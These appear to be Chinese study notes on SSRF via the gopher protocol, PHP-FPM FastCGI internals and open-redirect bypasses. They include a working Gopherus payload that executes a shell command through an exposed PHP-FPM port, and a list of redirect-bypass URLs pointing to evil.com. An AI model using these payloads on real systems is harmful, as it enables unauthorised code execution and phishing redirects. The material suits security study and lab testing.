

# Gopher

gopher协议在各个编程语言中的使用限制


Gopher协议格式：

```
URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
```

- gopher的默认端口是70
- 如果发起post请求，回车换行需要使用%0d%0a，如果多个参数，参数之间的&也需要进行URL编码


### Gopher发送请求HTTP GET请求

使用Gopher协议发送一个请求，环境为：nc起一个监听，curl发送gopher请求

nc启动监听，监听2333端口：nc -lp 2333

使用curl发送http请求，命令为

```
margine:~ margin$ curl gopher://192.168.0.119:2333/abcd
```

此时nc收到的消息为：

```
margine:~ margin$ nc -lp 2333
bcd
```

可以发现url中的a没有被nc接受到，如果命令变为

```
margine:~ margin$ curl gopher://192.168.0.119:2333/_abcd
```

此时nc收到的消息为：

```
margine:~ margin$ nc -lp 2333
abcd
```

### Gopher发送http请求

- 1、构造HTTP数据包
- 2、URL编码、替换回车换行为%0d%0a
- 3、发送gopher协议

在转换为URL编码时候有这么几个坑

- 1、问号（？）需要转码为URL编码，也就是%3f
- 2、回车换行要变为%0d%0a,但如果直接用工具转，可能只会有%0a
- 3、在HTTP包的最后要加%0d%0a，代表消息结束（具体可研究HTTP包结束）

准备文件，在一台Windows server上运行apache + php，写下如下代码

ssrf.php
```
<?php

$name = $_REQUEST['name'];

echo = $name;

?>
```

##### 发送GET请求

GET HTTP包格式为:

```
GET /ssrf.php?name=Margin HTTP/1.1
Host: 192.168.200.135
```

转换后:

```
GET%20/ssrf.php%3fname=Margin%20HTTP/1.1%0d%0aHost:%20192.168.200.135%0d%0A
```

通过gopher发送

```
─$ curl gopher://192.168.200.135:80/_GET%20/ssrf.php%3fname=Margin%20HTTP/1.1%0d%0aHost:%20192.168.200.135%0d%0A
HTTP/1.1 200 OK
Date: Mon, 14 Nov 2022 04:24:05 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/5.6.9
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

6
Margin
0

```

##### 发送POST请求

POST HTTP包格式为:
```
POST /ssrf.php HTTP/1.1
host: 192.168.200.135
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

name=Margin
```

转换后

```
POST%20/ssrf.php%20HTTP/1.1%0d%0ahost:%20192.168.200.135%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%2011%0d%0a%0d%0aname=Margin%0d%0a
```

发送:

```
┌──(kali㉿kali)-[~]
└─$ curl gopher://192.168.200.135:80/_POST%20/ssrf.php%20HTTP/1.1%0d%0ahost:%20192.168.200.135%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%2011%0d%0a%0d%0aname=Margin%0d%0a
HTTP/1.1 200 OK
Date: Mon, 14 Nov 2022 04:31:37 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/5.6.9
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

6
Margin
0


```

# fastcgi php-fpm

### Fastcgi Record

Fastcgi其实是一个通信协议，和HTTP协议一样，都是进行数据交换的一个通道。

HTTP协议是浏览器和服务器中间件进行数据交换的协议，浏览器将HTTP头和HTTP体用某个规则组装成数据包，以TCP的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以HTTP协议的规则打包返回给服务器。

类比HTTP协议来说，fastcgi协议则是服务器中间件和某个语言后端进行数据交换的协议。Fastcgi协议由多个record组成，record也有header和body一说，服务器中间件将这二者按照fastcgi的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给服务器中间件。

和HTTP头不同，record的头固定8个字节，body是由头中的contentLength指定，其结构如下：

```c
typedef struct {
  /* Header */
  unsigned char version; // 版本
  unsigned char type; // 本次record的类型
  unsigned char requestIdB1; // 本次record对应的请求id
  unsigned char requestIdB0;
  unsigned char contentLengthB1; // body体的大小
  unsigned char contentLengthB0;
  unsigned char paddingLength; // 额外块大小
  unsigned char reserved; 
 
  /* Body */
  unsigned char contentData[contentLength];
  unsigned char paddingData[paddingLength];
} FCGI_Record;
```

### Fastcgi Type

type就是指定该record的作用。因为fastcgi一个record的大小是有限的，作用也是单一的，所以我们需要在一个TCP流里传输多个record。通过type来标志每个record的作用，用requestId作为同一次请求的id。

也就是说，每次请求，会有多个record，他们的requestId是相同的。


### PHP-FPM

那么，PHP-FPM又是什么东西？

FPM其实是一个fastcgi协议解析器，Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM。

FPM按照fastcgi的协议将TCP流解析成真正的数据。

举个例子，用户访问http://127.0.0.1/index.php?a=1&b=2，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对：

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

这个数组其实就是PHP中$_SERVER数组的一部分，也就是PHP里的环境变量。但环境变量的作用不仅是填充$_SERVER数组，也是告诉fpm：“我要执行哪个PHP文件”。

PHP-FPM拿到fastcgi的数据包后，进行解析，得到上述这些环境变量。然后，执行SCRIPT_FILENAME的值指向的PHP文件，也就是/var/www/html/index.php。

### 任意代码执行

PHP-FPM未授权访问漏洞也就呼之欲出了。PHP-FPM默认监听9000端口，如果这个端口暴露在公网，则我们可以自己构造fastcgi协议，和fpm进行通信。

那么，为什么我们控制fastcgi协议通信的内容，就能执行任意PHP代码呢？

理论上当然是不可以的，即使我们能控制SCRIPT_FILENAME，让fpm执行任意文件，也只是执行目标服务器上的文件，并不能执行我们需要其执行的文件。

但PHP是一门强大的语言，PHP.INI中有两个有趣的配置项，auto_prepend_file和auto_append_file。

auto_prepend_file是告诉PHP，在执行目标文件之前，先包含auto_prepend_file中指定的文件；auto_append_file是告诉PHP，在执行完成目标文件后，包含auto_append_file指向的文件。

那么就有趣了，假设我们设置auto_prepend_file为php://input，那么就等于在执行任何php文件前都要包含一遍POST的内容。所以，我们只需要把待执行的代码放在Body中，他们就能被执行了。（当然，还需要开启远程文件包含选项allow_url_include）

那么，我们怎么设置auto_prepend_file的值？

这又涉及到PHP-FPM的两个环境变量，PHP_VALUE和PHP_ADMIN_VALUE。这两个环境变量就是用来设置PHP配置项的，PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项，PHP_ADMIN_VALUE可以设置所有选项。（disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中）

所以，我们最后传入如下环境变量：

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

设置auto_prepend_file = php://input且allow_url_include = On，然后将我们需要执行的代码放在Body中，即可执行任意代码。

### 利用Gopherus生成payload

```
└─$ ./gopherus.py --exploit fastcgi


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$
                                                                                                                                                         
Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  /var/www/html/index.php                                                                              
Terminal command to run:  ls /

Your gopher link is ready to do SSRF:                                                                                                                    
                                                                                                                                                         
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH56%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%008%04%00%3C%3Fphp%20system%28%27ls%20/%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------

```

把payload发送（如果当作url，需要进行url编码）




# URL Bypass

```
1. 单斜线"/"绕过
https://www.landgrey.me/redirect.php?url=/www.evil.com
2. 缺少协议绕过
https://www.landgrey.me/redirect.php?url=//www.evil.com
3. 多斜线"/"前缀绕过
https://www.landgrey.me/redirect.php?url=///www.evil.com
https://www.landgrey.me/redirect.php?url=////www.evil.com
4. 利用"@"符号绕过
https://www.landgrey.me/redirect.php?url=https://www.landgrey.me@www.evil.com
5. 利用反斜线"\"绕过
https://www.landgrey.me/redirect.php?url=https://www.evil.com\www.landgrey.me
6. 利用"#"符号绕过
https://www.landgrey.me/redirect.php?url=https://www.evil.com#www.landgrey.me
7. 利用"?"号绕过
https://www.landgrey.me/redirect.php?url=https://www.evil.com?www.landgrey.me
8. 利用"\\"绕过
https://www.landgrey.me/redirect.php?url=https://www.evil.com\\www.landgrey.me
9. 利用"."绕过
https://www.landgrey.me/redirect.php?url=.evil           (可能会跳转到www.landgrey.me.evil域名)
https://www.landgrey.me/redirect.php?url=.evil.com       (可能会跳转到evil.com域名)
10.重复特殊字符绕过
https://www.landgrey.me/redirect.php?url=///www.evil.com//..
https://www.landgrey.me/redirect.php?url=////www.evil.com//..
```

# 资料

Gopher协议在SSRF漏洞中的深入研究

https://zhuanlan.zhihu.com/p/112055947

Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写

https://blog.csdn.net/mysteryflower/article/details/94386461

Gopherus

https://github.com/tarunkant/Gopherus